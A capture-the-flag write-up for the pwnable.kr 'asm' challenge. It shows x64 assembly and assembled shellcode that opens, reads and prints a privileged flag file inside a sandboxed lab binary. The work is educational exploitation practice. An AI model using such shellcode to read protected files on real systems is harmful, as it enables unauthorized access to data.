 # 18 - asm

## The Challenge

Mommy! I think I know how to make shellcodes

ssh asm@pwnable.kr -p2222 \(pw: guest\)

## The Solution

The challenge directory contains a readme:

> once you connect to port 9026, the "asm" binary will be executed under asm\_pwn privilege. make connection to challenge \(nc 0 9026\) then get the flag. \(file name of the flag is same as the one in this directory\)

The directory really contains a file with an awefully long name.

It's time to run the binary:

![The last line and a half is my input, don&apos;t get confused :\)](../.gitbook/assets/image%20%2856%29.png)

Our input should be x64 shellcode that uses only `open, read` and `write` to print the flag. A peek at the source code shows there aren't any shenanigans, it's really what we need to do.

The source also contains shell code which our shell code gets concatinated to. Lets [decode](https://defuse.ca/online-x86-assembler.htm#disassembly2) it:

![](../.gitbook/assets/image%20%2857%29.png)

It zeros the registers. That's actualy quite nice of pwnables side, thanks ^\_^

It's time to write some pure assembly! Using [this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) wonderful table we created assembly that opens the flag file, reads it and outputs to stdout.

```text
mov rax, 2
mov rdi, 0x4141406f
syscall
mov rdi, rax
mov rax, 0
mov rsi, 0x4141406f
mov rdx, 0x30
syscall
mov rax, 1
mov rdi, 1
syscall

# shellcode: \x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x6F\x40\x41\x41\x48\xC7\xC2\x30\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05
```

You may be asking yourself "what's that address that is assigned to rsi and rdi?" We concatinate the flag file name to the end of the shellcode, and that's it's addess. We also read the flag to the same location. The final shellcode:

```text
\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x6F\x40\x41\x41\x48\xC7\xC2\x30\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05\x25\x00\x00\x00\x00\x0F\x05\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x00
```


